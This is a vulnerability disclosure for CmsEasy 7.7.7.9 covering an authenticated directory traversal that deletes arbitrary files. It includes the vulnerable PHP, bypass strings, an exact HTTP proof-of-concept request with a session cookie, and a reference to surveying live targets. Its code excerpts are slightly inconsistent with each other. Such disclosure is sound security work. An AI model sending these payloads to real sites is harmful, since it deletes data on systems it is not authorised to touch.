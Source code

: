 # CmsEasy Directory Traversal Leading to Arbitrary File Deletion Vulnerability

------

**Note: This vulnerability requires backend privileges**

------



# Vendor Information

**Developer:** 四平市九州易通科技有限公司 Siping Jiuzhou Yitong Technology Co., Ltd.

**Product Information:** CmsEasy V7.7.7.9 20240105

**Official Website:** https://www.cmseasy.cn/

**Product Source Code Download Address:** https://ftp.cmseasy.cn/CmsEasy7.x/CmsEasy_7.7.7_UTF-8_20240105.zip



# Trigger Points

**Note: This vulnerability requires backend privileges**

Located in `lib/admin/image_admin.php` within the function `deleteimg_action`. **Note: In this project, `front::get` is equivalent to `$_GET`.**

**Objective:** Trigger the `if (!unlink($img))` statement.

```php
function deleteimg_action() {
        if (!front::get('dir') || !front::get('imgname'))
            return;
        if (is_dir(front::get('dir')))
            return;
        $imgname=str_replace('___', '.', front::get('imgname'));
        $imgname = str_replace('#', '', $imgname);
        $imgname = str_replace('../', '', $imgname);
        $imgname = str_replace('./', '', $imgname);
        $img = ROOT . rtrim(config::get('html_prefix'),'/').'/upload/images/' . front::get('dir') . '/' . $imgname;
        if (!file_exists($img))
            front::flash(lang_admin('picture').lang_admin('nonentity'));
        if (!unlink($img))   // ---------目标触发点---------------
            front::flash(lang_admin('deleete').lang_admin('failure').'，'.lang_admin('please_check_permissions'));
        else
            front::flash(lang_admin('picture').lang_admin('ondelete'));
        front::redirect(url::modify('act/listimg/dir/' . front::get('dir')));
    }

    function end() {
        //$this->render('index.php');
        $this->render();
    }
```



# Vulnerability Analysis



## Bypassing the Filtering

The function includes protection measures, but its filtering is not strict enough, allowing for bypass.

Note: `config::get('html_prefix')` is a fixed value `cn`, which enables directory traversal via controlling the `dir` parameter.

```php
        $img = ROOT  .config::get('html_prefix').'/'. '/upload/images/' . front::get('dir') . '/' . str_replace('___', '.', front::get('imgname'));
        $img = str_replace('.php', '', $img);
        $img = str_replace('#', '', $img);
        $img = str_replace('../', '', $img);
        $img = str_replace('./', '', $img);
```

**Bypass Methods: Two Approaches**

**Method One:** Use conventional path parsing combined with rewriting

```php
.....///.....///
=>result in
../../
```

**Method Two:** Leverage Windows path parsing characteristics:

```
..\\ or ..\
```

Similarly, if you want to traverse PHP files, you only need to construct `.p.phphp`.

**Code Verification:**

```php
<?php
function check_url($tpl){
   $tpl = str_replace('.php', '', $tpl);
    $tpl = str_replace('#', '', $tpl);
    $tpl = str_replace('../', '', $tpl);
    $tpl = str_replace('./', '', $tpl);
    return $tpl;
}
$str1 = '.p.phphp';
$str2 = '.....///.....///';  

$path1 = check_url($str1);
$path2 = check_url($str2);

echo 'path1:  ' . $path1 . "\n";  // path:  .php
echo 'path2:  ' . $path2 . "\n"; // path1:  ../../
```

## Request Construction

After testing, we can conclude the following:

Request analysis:

```http
http://127.0.0.1:5678/index.php?case=database&act=backAll&admin_dir=admin&site=default
```

- The `case` parameter corresponds to the business logic file located under the `lib/admin` directory (in this example, it is `database_admin.php`).
- The `act` parameter corresponds to the `xxxx_action` function within the file pointed to by `case` (in this example, it is the `backAll_action()` method).
- The `admin_dir` parameter is the backend directory parameter (this vulnerability requires backend privileges).
- The `site` parameter is the default parameter if not configured (it has no impact).



So, based on this, we construct the request with `{xxxx}` serving as the injection point for (`dir` and `imgname`).

```htt[
http://127.0.0.1:5678/index.php?case=image&act=deleteimg&admin_dir=admin&site=default&dir={xxxx}&imgname={XXXX}
```



## POC Construction and Verification

According to the explanation of the function earlier:

```php
$img = ROOT  .config::get('html_prefix').'/'. '/upload/images/' . front::get('dir') . '/' . str_replace('___', '.', front::get('imgname'));
```

This results in appending `dir` and `imgname` to the directory `/cn/upload/images/`.

![image-20250202190322616](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250202190322616.png)

Among them, the directories `202012` and `201908` are fixed template static resources. (According to FoFa testing, most targets have image files under the `202012` directory; for example, the external mapping of a sample image resource is `/images/banner/s1.jpg`.)

We attempt to delete `robots.txt` (located in the root directory).

![image-20250202190358977](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250202190358977.png)



Construct Request Message:

```http
GET /index.php?case=image&act=deleteimg&admin_dir=admin&site=default&dir=202012&imgname=.....///.....///.....///.....///robots.txt HTTP/1.1
Host: 192.168.107.1:5678
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=kedh3tpmobjfgci55hvqskpfq6; login_username=admin; login_password=UcaU5eNfvRIM4QKU5SNaASI45RKg6egPvR7A%253DSNhregCK2ab18391e6e61e99aff8e10d05e4ad02
referer: http://192.168.107.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Connection: keep-alive


```

A response of 302 is normal, as redirection is in place.

![image-20250202190514892](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250202190514892.png)

Upon inspection, it was found that `robots.txt` was successfully deleted.

![image-20250202190533970](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250202190533970.png)



**Vulnerability Verification Successful**

















